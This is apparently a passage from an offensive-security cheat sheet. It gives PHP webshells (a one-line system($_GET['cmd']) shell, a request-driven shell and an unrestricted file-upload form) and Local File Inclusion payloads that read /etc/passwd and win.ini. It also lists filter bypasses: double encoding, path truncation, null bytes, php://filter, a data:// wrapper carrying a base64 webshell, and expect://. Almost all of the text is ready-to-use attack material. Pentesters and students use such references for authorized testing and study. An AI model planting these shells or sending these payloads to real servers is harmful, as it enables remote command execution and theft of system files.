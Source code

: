 ### Webshells
```php
// PHP one-liner
<?php system($_GET['cmd']); ?>

// More advanced PHP shell
<?php
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}
?>

// PHP file upload
<?php
if (isset($_FILES['file'])) {
    move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
    echo "File uploaded!";
}
?>
<form enctype="multipart/form-data" method="post">
<input type="file" name="file">
<input type="submit" value="Upload">
</form>
```

## Local File Inclusion (LFI)

### Detection
```
page.php?file=../../../etc/passwd
page.php?file=../../../windows/win.ini
page.php?file=/etc/passwd
page.php?file=C:\windows\win.ini
```

### Bypassing Filters
```
# Double encoding
page.php?file=%252e%252e%252fetc%252fpasswd

# Path truncation (PHP < 5.3)
page.php?file=../../../../../../../../../etc/passwd.......................

# Null byte (PHP < 5.3)
page.php?file=../../../etc/passwd%00

# Using wrappers
page.php?file=php://filter/convert.base64-encode/resource=/etc/passwd
page.php?file=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8%2BCg%3D%3D
page.php?file=expect://ls
```

